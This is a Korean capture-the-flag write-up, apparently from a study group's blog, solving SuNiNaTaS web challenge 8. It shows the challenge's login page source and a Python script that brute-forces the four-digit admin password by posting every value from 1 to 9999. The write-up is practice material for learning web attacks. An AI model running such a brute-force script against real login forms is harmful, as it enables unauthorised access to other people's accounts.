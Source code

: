 ```yaml
---
layout: default
title: Day24
nav_order: 3

parent: Hacking Project - W4
grand_parent: P4C
---
```


##### 해당 게시글은 빡공팟 4기(with TeamH4C)와 관련되어 있습니다
-----

# > http://suninatas.com/

## challenge 8

![image-20220511183914297](../img/image-20220511183914297.png)

가장 기초적인 브루트포싱 관련 문제임을 페이지를 보자마자 직감했다.  
그리고 페이지 소스를 확인하였더니 아래와 같았다.


```html
<!DOCTYPE html>

<html>
<head>
    <title>Game 08</title>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
    <link rel="shortcut icon" href="/static/img/game.ico" />
</head>
<body>
    <form method="post" action="./web08.asp">
        <br>
        <br>
        <br>
        <br>
        <br>
        <br>
        <br>
        <table width="240" cellpadding="0" cellspacing="0" align="center">
            <tr height="30">
                <td width="50%" class="table_top" align="center">
                    <input type="button" name="main_btn" value="main" style="width: 60" onclick="location.href = '/'"></td>
                <td width="50%" class="table_top" align="center">
                    <input type="button" name="main_btn" value="Back" style="width: 60" onclick="history.back()"></td>
            </tr>
            <tr height="30" class="table_main">
                <td width="120" align="center" bgcolor="cccccc"><font size="2"><b>ID</b></font></td>
                <td width="120" align="center" bgcolor="cccccc">
                    <input type="text" name="id" style="width: 90"></td>
            </tr>
            <tr height="30" class="table_main">
                <td align="center" bgcolor="cccccc"><font size="2"><b>PW</b></font></td>
                <td align="center" bgcolor="cccccc">
                    <input type="password" name="pw" style="width: 90" maxlength="4"></td>
            </tr>
            <tr height="30">
                <td colspan="2" align="center" class="table_top" bgcolor="cccccc">
                    <input type="button" name="btn" value="Login" onclick="submit()" size="20"></td>
            </tr>
            <tr class="table_main" height="30">
                <td colspan="2" align="center" bgcolor="cccccc">Password Incorrect!</td>
            </tr>
        </table>
    </form>
</body>
</html>


<!-- Hint : Login 'admin' Password in 0~9999 -->
<!-- M@de by 2theT0P -->

```

힌트에서도 의미하듯이 브루트포싱 문제 같았고 기존에 알고 있던 파이썬의 request 패키지를 이용하여 POST 형식으로 요청 및 응답을 진행하기로 했다. 또한 내가 전달한 비밀번호가 맞는지 판별하는 기준을 " Incorrect! " 단어로 지정함으로써 응답 패킷에 해당 단어가 없으면 정답인 것으로 했다.

사용한 코드는 아래와 같다

```python
import requests
url = 'http://suninatas.com/challenge/web08/web08.asp'

for i in range(1,10000):
	params = {
		'id':'admin',
		'pw':str(i)
	}
	response = requests.post(url,params)
	if 'Incorrect' in response.text:
		print(str(i))
	else:
		print(str(i))
		break
```

POST 방식으로 전달할 때에는 위와 같이 파라미터값을 설정하여 보낸다.  
이 때 웹 페이지에서 `name` 속성으로 지정한 값이 `id`와 `pw` 임을 확인하고 해당 속성 값을 전달해야 한다.  
만약 GET 방식이였다면 url에 포함하여 전달하였을 것이다.
